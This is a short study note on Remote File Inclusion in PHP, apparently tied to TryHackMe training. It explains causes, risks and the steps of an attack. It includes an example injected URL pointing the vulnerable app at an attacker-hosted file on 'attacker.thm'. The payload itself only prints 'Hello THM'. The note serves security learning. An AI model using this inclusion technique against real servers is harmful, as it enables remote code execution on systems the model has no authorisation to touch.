 ```yaml
---
aliases:
  - RFI
tags:
  - Vulnerability
---
```

Remote File Inclusion (**RFI**) is a technique to *include remote files into a vulnerable application*. Like LFI, the RFI occurs when *improperly sanitising user input*, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the `allow_url_fopen` option needs to be `on`.

The **risk of RFI is higher than LFI** since RFI vulnerabilities allow an attacker to gain Remote Command Execution ([[Remote Command Execution|RCE]]) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting ([[Cross-site Scripting|XSS]])
- Denial of Service ([[Denial of Service Attack|DoS]])

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the *include function via HTTP requests*, and the content of the malicious file executes on the vulnerable application server.

![[RFI.png]]

### RFI Steps

The above figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where `cmd.txt` contains a printing message  `Hello THM`.

```PHP
<?PHP echo "Hello THM"; ?>
```

First, the attacker *injects the malicious URL*, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, then the malicious URL passes into the include function. 

Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app *includes the remote file into include function to execute the PHP file* within the page and *send the execution content to the attacker*. In our case, the current page somewhere has to show the Hello THM message.

